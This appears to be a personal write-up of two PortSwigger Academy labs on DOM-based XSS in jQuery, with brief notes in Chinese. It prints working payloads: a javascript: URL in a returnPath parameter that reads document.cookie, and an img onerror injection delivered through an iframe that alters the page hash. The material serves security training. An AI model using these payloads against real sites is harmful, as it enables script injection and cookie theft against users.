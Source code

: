 ## Lab: DOM XSS in jQuery anchor `href` attribute sink using `location.search` source

| Dimension | Description                                                                                        |
| --------- | -------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/dom-based#dom-xss-in-jquery              |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink |

基礎題，無難度


```
?returnPath=javascript:alert(document.cookie)
```

## Lab: DOM XSS in jQuery selector sink using a hashchange event

| Dimension | Description                                                                                               |
| --------- | --------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/dom-based#dom-xss-in-jquery                     |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event |

先觀察網站的 js


```js
$(window).on('hashchange', function(){
    var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
    if (post) post.get(0).scrollIntoView();
});
```

老實說我沒深入研究 jQuery 有哪些 method 可以觸發 XSS，但 jQuery 底層基本上也是調用 DOM API

我們先確認這段程式碼的正常邏輯，如果網址 hash 包含文章標題，就會自動 `scrollIntoView`


```
#Spider Web Security
```

先嘗試注入點在哪裡，推測是 jQuery 的 `$`，發現這樣可以成功注入


```js
$("<img src='x' onerror='print()'>");
```

之後構造一個假的 Server

```html
<iframe
  src="https://0a51004f0349d85a80bf035d003e002e.web-security-academy.net/#"
  onload="this.src+='<img src=x onerror=print()>'"
></iframe>
```
